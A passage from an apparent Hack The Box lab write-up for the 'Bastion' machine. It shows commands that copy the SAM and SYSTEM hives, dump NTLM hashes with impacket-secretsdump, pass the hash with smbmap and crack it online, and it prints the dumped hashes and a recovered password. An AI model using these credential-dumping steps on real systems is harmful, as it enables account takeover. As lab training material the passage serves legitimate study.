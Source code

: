 > sam , system are the registary hives
> user database in sam 
> but userdatabase encrypted key in the system
> NTTS.div if you own a domain controller
> if you have NTTS SAM AND SYSTEM you can extract the active directory database

```sh
cp SAM SYSTEM /home/kali/Desktop/htb_WUP/bastion 
```

- copied sam , sytem files

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/16.jpg)

#### use impacket-secretsdump

```sh
impacket-secretsdump -sam SAM -system SYSTEM local
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/17.jpg)

```sh
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
- we have a few hashes 
> 31d6 means that the account is disabled or nothing
> nlm hash aad3b also blanked out 

so we have only ntlm hash for L4mpje = 26112010952d963c8dc4217daec986d9

- check wheter it works =  write access to C: drive /C$
- then we use psexec to get adminsitrator

```sh
smbmap -u L4mpje -p aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9 -H 10.10.10.134
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/18.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/19.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/20.jpg)

https://hashes.com/en/decrypt/hash

try to decrypt this hash 26112010952d963c8dc4217daec986d9

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/21.jpg)

26112010952d963c8dc4217daec986d9:bureaulampje

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/22.jpg)
